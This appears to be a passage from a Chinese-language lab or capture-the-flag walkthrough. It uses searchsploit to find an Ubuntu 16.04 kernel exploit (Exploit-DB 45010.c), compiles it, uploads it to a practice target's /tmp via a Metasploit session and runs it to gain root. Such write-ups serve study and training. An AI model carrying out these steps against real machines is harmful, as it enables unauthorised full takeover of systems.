

获取关键信息，内核版本，找一下有没有对应版本的漏洞

```bash
searchsploit Ubuntu 16.04
```
用这个搜索命令



注意：linux的版本号是主版本.次版本.修正版本-补丁号这样比较主包靶场可能有问题,查了一下正常是4.10版本的,出现这个问题可以去官网重装一下,目前继续按4.10版本说下去吧所以选择45010.c这个漏洞这个要在攻击机编译一下(.c是c语言的源代码文件)

进入这个目录 `cd /usr/share/exploitdb/exploits/linux/local/`

45010.c在这个目录下

```bash
gcc 45010.c -o /tmp/45010
```

然后通过msf传到靶机里

```bash
upload /tmp/45010 /tmp/45010
```



注意::一定要上传到靶机的tmp目录下,因为tmp目录所有人都有读写权限,其他目录不一定有权限,会导致上传失败然后在msf里面执行这一串

```bash
shell
cd /tmp
ls
chmod +x 45010
./45010
whoami
```

最后执行的whoami 可以得到root的权限,自此渗透结束
